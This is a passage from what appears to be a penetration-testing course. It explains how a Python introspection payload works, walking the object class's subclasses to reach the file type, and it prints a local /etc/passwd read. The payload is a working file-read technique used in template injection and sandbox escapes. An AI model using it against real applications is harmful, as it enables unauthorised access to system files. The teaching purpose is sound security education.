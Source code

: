 kali@kali:~$ python3
...
>>> ''.__class__.__mro__[1].__subclasses__()
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, ... <class 'reprlib.Repr'>, <class 'collections.deque'>, <class '_collections._deque_iterator'>, <class '_collections._deque_reverse_iterator'>, <class 'collections._Link'>, <class 'functools.partial'>, <class 'functools._lru_cache_wrapper'>, <class 'functools.partialmethod'>, <class 'contextlib.ContextDecorator'>, <class 'contextlib._GeneratorContextManagerBase'>, <class 'contextlib._BaseExitStack'>, <class 'rlcompleter.Completer'>]
Listing 63 - Subclasses of object class

As expected, we will get a complete list of currently-loaded classes that inherit from the object class. The original payload references the 40th index of the list that is returned. In our list, this returns the wrapper_descriptor class.

>>> ''.__class__.__mro__[1].__subclasses__()[40]
<class 'wrapper_descriptor'>
Listing 64 - 40th index of object class in python3

Since the payload is trying to read the /etc/passwd file and the wrapper_descriptor class does not have a read function, we know something is not right.

>>> dir(''.__class__.__mro__[1].__subclasses__()[40])
['__class__', '__contains__', '__delattr__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__iter__', '__le__', '__len__', '__lt__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'copy', 'get', 'items', 'keys', 'values']
Listing 65 - List of attributes and methods of mappingproxy

However, if we use this payload in Python 2.7, the returned item in the 40th index is the file type.

The returned file is a type and not a class - this won't affect how we handle the returned item. Since Python 2.2, a unification of types to classes has been underway.8 In Python 3, types and classes are the same.

kali@kali:~$ python2.7
...
>>> ''.__class__.__mro__[2].__subclasses__()[40]
<type 'file'>

>>> dir(''.__class__.__mro__[2].__subclasses__()[40])
['__class__', '__delattr__', '__doc__', '__enter__', '__exit__', '__format__', '__getattribute__', '__hash__', '__init__', '__iter__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'close', 'closed', 'encoding', 'errors', 'fileno', 'flush', 'isatty', 'mode', 'name', 'newlines', 'next', 'read', 'readinto', 'readline', 'readlines', 'seek', 'softspace', 'tell', 'truncate', 'write', 'writelines', 'xreadlines']
Listing 66 - 40th index of object class in python3

Essentially, the payload is using the file type, passing in the file to be read (/etc/passwd), and running the read method. In Python 2.7, we can read the /etc/passwd file.

>>> ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()
'root:x:0:0:root:/root:/usr/bin/fish\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\n...\nkali:x:1000:1000:,,,:/home/kali:/bin/bash\n'
Listing 67 - Reading /etc/passwd
